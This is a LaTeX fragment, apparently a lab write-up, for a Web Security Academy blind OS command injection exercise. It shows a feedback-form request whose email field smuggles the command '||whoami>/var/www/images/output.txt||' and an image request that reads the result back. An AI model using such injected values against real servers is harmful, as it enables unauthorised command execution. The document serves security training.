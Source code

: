 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
    \begin{lstlisting}[label={lst:blind-original-request},caption={Original request}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=potato%40potato.com&subject=potato&message=afsdfsdfsd
    \end{lstlisting}

    \begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=||whoami>/var/www/images/output.txt||&subject=potato&message=afsdfsdfsd
    \end{lstlisting}
    Here the \texttt{>} operator redirects the output of \texttt{whoami} to \texttt{/var/www/images/output.txt}.
    \item Forward the modified request. Successful submission is indicated by the message \texttt{Thank you for submitting feedback!}.
    \item To retrieve the file, navigate to the product page and request the filename parameter corresponding to \texttt{output.txt}.
    \item Example: replace the original image request
    \begin{lstlisting}[label={lst:modified-request},caption={Original image request}]
    GET /image?filename=36.jpg HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}
    with
    \begin{lstlisting}[label={lst:modified-request},caption={Modified image request}]
    GET /image?filename=output.txt HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}

    \newpage
    \item The final result can be observed as shown below.
    \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure6.png}
      \caption{Result of Lab 3}
      \label{fig:whoami-result-2}
      \end{figure}

  \end{enumerate}

\end{description}
\end{document}
